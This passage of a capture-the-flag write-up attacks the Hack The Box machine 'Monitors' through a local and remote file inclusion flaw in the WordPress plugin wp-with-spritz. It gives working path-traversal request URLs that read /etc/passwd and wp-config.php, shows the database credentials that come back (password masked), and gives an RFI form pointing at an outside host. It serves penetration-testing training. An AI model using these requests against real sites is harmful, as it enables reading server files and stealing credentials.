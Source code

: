 Reading the details of the exploit, we can see that both local and remote file inclusion should be possible.

```
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```

## Exploiting Spritz LFI

When we attempt the LFI, we obtain the contents of the /etc/passwd file by sending a GET request or browsing to the following URL:

`http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd`

![passwd](/img/monitors/passwd.png)

> While the RFI does work, as of the writing of this writeup, it appears that php files are not getting executing when requested. I will update this writeup accordingly if a method to leverage the RFI is found.

### Reading wp-config using LFI

Using the LFI, we can now search for some [common files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion) which could be useful for us. Since this is a wordpress installation, we can access the `wp-config.php` file by browsing to the following URL:

`http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php`

```
..snip..

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wpadmin' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Be*********************' );

..snip..
```
